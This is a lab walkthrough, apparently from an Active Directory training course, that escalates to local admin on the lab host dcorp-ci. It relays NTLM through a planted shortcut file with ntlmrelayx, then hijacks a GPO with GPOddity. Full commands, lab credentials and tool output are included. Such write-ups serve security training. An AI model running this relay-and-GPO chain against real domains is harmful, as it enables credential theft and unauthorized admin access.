

# Learning Objective 06 (Local Privilege Escalation | Relaying + GPO Abuse)

## Tasks

1. **Abuse an overly permissive GPO to get local admin access on `dcorp-ci`**

---

## Solution

1. **Abuse an overly permissive GPO to get local admin access on `dcorp-ci`**


`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainGPO -Identity "DevOps Policy"`:
```
flags                    : 0
displayname              : DevOps Policy📑
gpcmachineextensionnames📌 : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 12/24/2024 7:09:01 AM
versionnumber            : 3
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}📌
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
usnchanged               : 296496
dscorepropagationdata    : {12/18/2024 7:31:56 AM, 1/1/1601 12:00:00 AM}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{0BF8D01C-1F62-4BDC-958C-57140B67D147}📌
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,D
                           C=local
whencreated              : 12/18/2024 7:31:22 AM
showinadvancedviewonly   : True
usncreated               : 293100
gpcfunctionalityversion  : 2
instancetype             : 4
objectclass              : {top, container, groupPolicyContainer}
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

**`DevOps Policy` GPO abuse for local admin access on `dcorp-ci`**

In *Learning Objective 01*, we enumerated that there is a directory called `AI` on the `dcorp-ci` machine where 'Everyone' has access. Looking at the directory, we will find a log file.

`net view \\dcorp-ci`:
```
Shared resources at \\dcorp-ci


Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
AI📁        Disk
The command completed successfully.
```

`dir \\dcorp-ci\AI`:
```
 Volume in drive \\dcorp-ci\AI has no label.
 Volume Serial Number is 76D3-EB93

 Directory of \\dcorp-ci\AI

12/23/2024  11:09 PM    <DIR>          .
01/06/2025  12:22 AM             3,332 AI.log📌
               1 File(s)          3,332 bytes
               1 Dir(s)   5,767,585,792 bytes free
```



It turns out that the `AI` folder is used for testing some automation that executes shortcuts (`.lnk` files) as the user `devopsadmin`.
Recall that we enumerated a user `devopsadmin` has `WriteDACL` on `DevOps Policy` (see *Learning Objective 03*).

Let's try to abuse this using GPOddity.

First, we will use ntlmrelayx tool from Ubuntu WSL instance on the student VM to relay the credentials of the `devopsadmin` user.


`ip addr`:
```
23: eth0: <BROADCAST,MULTICAST,UP> mtu 1500 group default qlen 1
    link/ether 00:15:5d:fd:78:0c
    inet 172.16.100.22📌/24 brd 172.16.100.255 scope global dynamic
       valid_lft forever preferred_lft forever
    inet6 fe80::d5b9:a798:6a3d:c87/64 scope link dynamic
       valid_lft forever preferred_lft forever
1: lo: <LOOPBACK,UP> mtu 1500 group default qlen 1
    link/loopback 00:00:00:00:00:00
    inet 127.0.0.1/8 brd 127.255.255.255 scope global dynamic
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host dynamic
       valid_lft forever preferred_lft forever
```

Use "WSLToTh3Rescue!" as the `sudo` password.

`sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.22 --http-port '80,8080' -i --no-smb-server`:
```
[sudo] password for wsluser:
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client HTTP loaded..📌
[*] Protocol Client HTTPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up HTTP Server on port 80
[*] Setting up HTTP Server on port 8080
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Multirelay disabled

[*] Servers started, waiting for connections

[...]
```

On the student VM, let's create a shortcut that connects to the ntlmrelayx listener.


`cd /AD/Tools`

Use the following command as the shortcut:

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.22' -UseDefaultCredentials"
```


Copy the `.lnk` file to `\\dcorp-ci\AI`.

`xcopy C:\AD\Tools\student422.lnk \\dcorp-ci\AI`:
```
C:\AD\Tools\student422.lnk
1 File(s) copied
```

The simulation on `dcorp-ci`, will execute the `.lnk` file within a minute.


This is what the listener looks like on a successful connection:

```
[...]

[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Connection from 172.16.3.11📌 controlled, attacking target ldaps://172.16.2.1
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Authenticating against ldaps://172.16.2.1 as DCORP/DEVOPSADMIN SUCCEED📌
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000📌 as DCORP/DEVOPSADMIN
```

Connect to the LDAP shell started on port 11000. Run the following command **from a new Ubuntu WSL session**.

`nc 127.0.0.1 11000`:
```
Type help for list of commands

#
```

Using this LDAP shell, we will assign `WriteDACL` permissions on the `DevOps Policy` GPO `{0BF8D01C-1F62-4BDC-958C-57140B67D147}` to the `student422` user.


`whoami`:
```
u:dcorp\devopsadmin
```

`write_gpo_dacl student422 {0BF8D01C-1F62-4BDC-958C-57140B67D147}`:
```
Adding student422 to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}📌
LDAP server claims to have taken the secdescriptor. Have fun
```

<🔄 Alternative Step🔄>

Alternatively, if we do not have access to any domain users (in our case `student422`), we can add a computer object and assign `WriteDACL` permissions on the `DevOps Policy` GPO `{0BF8D01C-1F62-4BDC-958C-57140B67D147}` to it.

`add_computer std422-gpattack Secretpass@123`:
```
Attempting to add a new computer with the name: std422-gpattack$📌
Inferred Domain DN: DC=dollarcorp,DC=moneycorp,DC=local
Inferred Domain Name: dollarcorp.moneycorp.local
New Computer DN: CN=std422-gpattack,CN=Computers,DC=dollarcorp,DC=moneycorp,DC=local
Adding new computer with username: std422-gpattack$ and password: Secretpass@123 result: OK
```

`write_gpo_dacl std422-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}`:
```
Adding std422-gpattack$ to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}📌
LDAP server claims to have taken the secdescriptor. Have fun
```

</🔄 Alternative Step🔄>

Stop the LDAP shell and ntlmrelayx using `ctrl+c`.

Now, run the GPOddity command to create the new malicious group policy template.

`cd /mnt/c/AD/Tools/GPOddity`

`sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student422' --password 'Cv8xAG7v2FhkAZPh' --command 'net localgroup administrators student422 /add' --rogue-smbserver-ip '172.16.100.22' --rogue-smbserver-share 'std422-gp' --dc-ip '172.16.2.1' --smb-mode none`:
```
[sudo] password for wsluser:

=== GENERATING MALICIOUS GROUP POLICY TEMPLATE ===📌

[*] Downloading the legitimate GPT from SYSVOL
[+] Successfully downloaded legitimate GPO from SYSVOL to 'GPT_out' folder📌
[*] Injecting malicious scheduled task into initialized GPT📌
[+] Successfully injected malicious scheduled task
[*] Initiating LDAP connection
[+] LDAP bind successful
[*] Updating downloaded GPO version number to ensure automatic GPO application
[+] Successfully updated downloaded GPO version number

=== SPOOFING GROUP POLICY TEMPLATE LOCATION THROUGH gPCFileSysPath ===

[*] Modifying the gPCFileSysPath attribute of the GPC to '\\172.16.100.22\std422-gp'📌
[+] Successfully spoofed GPC gPCFileSysPath attribute
[*] Updating the versionNumber attribute of the GPC
[+] Successfully updated GPC versionNumber attribute
[*] Updating the extensionName attribute of the GPC
[+] Successfully updated GPC extensionName attribute

=== WAITING (not launching GPOddity SMB server) ===
[*] CTRL+C to stop and clean...
```

Leave GPOddity running and **from another Ubuntu WSL session**, create and share the `std422-gp` directory.


`ls /mnt/c/AD/Tools/GPOddity/GPT_out/`:
```
total 0
drwxrwxrwx 1 wsluser wsluser 4096 Feb 20 07:47 Machine
drwxrwxrwx 1 wsluser wsluser 4096 Feb 20 07:47 User
-rwxrwxrwx 1 wsluser wsluser   56 Feb 20 07:47 gpt.ini📌
```

`mkdir /mnt/c/AD/Tools/std422-gp`

`cp -r /mnt/c/AD/Tools/GPOddity/GPT_out/* /mnt/c/AD/Tools/std422-gp`

**From a command prompt ('run as administrator') on the student VM**, run the following commands to configure both network sharing and file system permissions, ensuring that 'Everyone' has full access to the `std422-gp` directory for both remote and local interactions.


`net share std422-gp=C:\AD\Tools\std422-gp /grant:Everyone,Full`:
```
std422-gp was shared successfully.
```

`icacls "C:\AD\Tools\std422-gp" /grant Everyone:F /T`:
```
processed file: C:\AD\Tools\std422-gp
processed file: C:\AD\Tools\std422-gp\gpt.ini
processed file: C:\AD\Tools\std422-gp\Machine
processed file: C:\AD\Tools\std422-gp\User
processed file: C:\AD\Tools\std422-gp\Machine\comment.cmtx
processed file: C:\AD\Tools\std422-gp\Machine\Microsoft
processed file: C:\AD\Tools\std422-gp\Machine\Preferences
processed file: C:\AD\Tools\std422-gp\Machine\Registry.pol
processed file: C:\AD\Tools\std422-gp\Machine\Scripts
processed file: C:\AD\Tools\std422-gp\Machine\Microsoft\Windows NT
processed file: C:\AD\Tools\std422-gp\Machine\Microsoft\Windows NT\SecEdit
processed file: C:\AD\Tools\std422-gp\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
processed file: C:\AD\Tools\std422-gp\Machine\Preferences\ScheduledTasks
processed file: C:\AD\Tools\std422-gp\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
processed file: C:\AD\Tools\std422-gp\Machine\Scripts\Shutdown
processed file: C:\AD\Tools\std422-gp\Machine\Scripts\Startup
Successfully processed 16 files; Failed processing 0 files
```

Verify if the `gPCfileSysPath` has been modified for the `DevOps Policy` GPO. Run the following PowerView command.

`C:\AD\Tools\InviShell\RunWithPathAsAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainGPO -Identity "DevOps Policy"`:
```
flags                    : 0
displayname              : DevOps Policy📑
gpcmachineextensionnames : [{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{35378EAC-683
                           F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00
                           C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}][{AADCED64-746C-4633-A97C-D61349046527}{CA
                           B54552-DEEA-4691-817E-ED4A4D1AFC72}]
whenchanged              : 2/20/2025 3:47:16 PM
versionnumber            : 4
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
usnchanged               : 1667030
dscorepropagationdata    : {2/20/2025 3:45:17 PM, 12/18/2024 7:31:56 AM, 1/1/1601 12:00:00 AM}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\172.16.100.22\std422-gp📌
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,D
                           C=local
whencreated              : 12/18/2024 7:31:22 AM
showinadvancedviewonly   : True
usncreated               : 293100
gpcfunctionalityversion  : 2
instancetype             : 4
objectclass              : {top, container, groupPolicyContainer}
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

The update for this policy is configured to be every 2 minutes in the lab. After waiting for 2 minutes, `student422` should be added to the local "Administrators" group on `dcorp-ci`.

`winrs -r:dcorp-ci cmd: /c "set computername && set username"`:
```
COMPUTERNAME=DCORP-CI🖥️
USERNAME=student422👤
```
🚩

---
---
